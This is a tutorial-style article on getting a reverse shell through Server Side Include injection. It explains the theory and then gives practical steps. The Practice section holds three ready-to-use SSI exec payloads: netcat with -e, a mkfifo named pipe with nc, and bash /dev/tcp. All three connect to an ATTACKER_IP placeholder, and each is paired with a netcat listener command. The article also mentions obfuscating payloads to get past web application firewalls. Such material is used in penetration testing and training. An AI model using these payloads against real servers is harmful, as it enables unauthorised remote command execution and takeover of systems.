 ```yaml
---
title: 'Reverse Shell: Achieving Remote Access via SSI Injection'
description: Learn about reverse shell creation using Server Side Include injection
  for remote access.
keywords:
- reverse shell
- SSI injection
- netcat
- bash reverse shell
- mkfifo
- post-exploitation
- server-side includes
- network sockets
- cybersecurity
---
```


# Reverse Shell

## Context

The objective of this article is to demonstrate how to achieve a reverse shell via Server Side Include (SSI) injection for remote access and post-exploitation. It is assumed that the reader has knowledge of server side includes, shell commands, network sockets, and the technique of Server Side Include Injection.

## Theory

### Reverse Shell Fundamentals in SSI Context

A reverse shell is a shell session initiated from the target server back to the attacker's host, enabling remote command execution. This technique is particularly useful because it allows attackers to bypass inbound firewall restrictions by having the target system connect outward to an attacker's listener, typically set up on a controlled machine. 

In a typical attack sequence, the attacker injects a Server Side Include (SSI) payload into a vulnerable web application. This payload can execute shell commands, resulting in the server connecting back to the attacker’s machine where the attacker prepared a listening service. This service receives connections from the target and establishes a remote shell session.

### SSI Payload Construction for Reverse Shells

The SSI `<!--#exec cmd=...-->` directive executes arbitrary shell commands on vulnerable web servers. The vulnerability arises when server-side input is improperly filtered or unsanitized, allowing malicious actors to inject shell commands, including those required for a reverse shell. 

Payloads injected through SSIs may require specific encoding or obfuscation to evade input filters or Web Application Firewalls (WAFs), thus ensuring successful execution of the malicious directive.

### Reverse Shell Payload Mechanisms

Common reverse shell payloads utilize commonly available utilities like netcat, bash, or mkfifo to establish outbound connections to the attacker’s system. The data flow from these payloads involves executing a command that spawns an interactive shell process, which connects back to the attacker's predefined IP and port, redirecting the standard input/output over the network socket.

```mermaid
flowchart TD
    A[Attacker sets up listener] --> B[Injects SSI reverse shell payload]
    B --> C[Server executes payload]
    C --> D[Server connects to attacker's listener]
    D --> E[Attacker gains shell access]
```

## Practice

### SSI Injection with Netcat Reverse Shell

To execute a reverse shell using netcat, perform the following steps:

- **Start a netcat listener**: 
    ```bash
    nc -lvnp 4444
    ```
  This command sets up a netcat listener on port 4444 on the attacker's machine.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="/bin/nc -e /bin/bash ATTACKER_IP 4444" -->
    ```
  This payload is injected into the vulnerable SSI-enabled page to execute netcat, which will connect back to the attacker's machine, executing a bash shell.

Upon successful execution, the attacker will receive an interactive shell from the target server.

### SSI Injection with Bash Reverse Shell (mkfifo method)

Follow these steps to exploit a vulnerable server using a bash reverse shell with mkfifo:

- **Start a netcat listener**:
    ```bash
    nc -lvnp 4444
    ```
  Setup a listener similar to the netcat method above.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="mkfifo /tmp/f; /bin/sh </tmp/f | nc ATTACKER_IP 4444 >/tmp/f; rm /tmp/f" -->
    ```
  This payload uses mkfifo to create a named pipe, enabling a bash shell to communicate over the network using netcat.

This technique allows the attacker to gain a shell via bash, using the named pipe mechanism for IO redirection.

### SSI Injection with Bash TCP Reverse Shell (no netcat)

To establish a reverse shell purely using bash, execute the following:

- **Start a netcat listener**:
    ```bash
    nc -lvnp 4444
    ```
  This listener is prepared beforehand to catch the connection.

- **Inject SSI Payload**:
    ```html
    <!--#exec cmd="/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" -->
    ```
  This payload utilizes bash's built-in `/dev/tcp` feature to directly establish a TCP connection without auxiliary utilities.

On successful execution, the attacker receives a shell using bash's network capabilities.

## Tools

- **netcat**
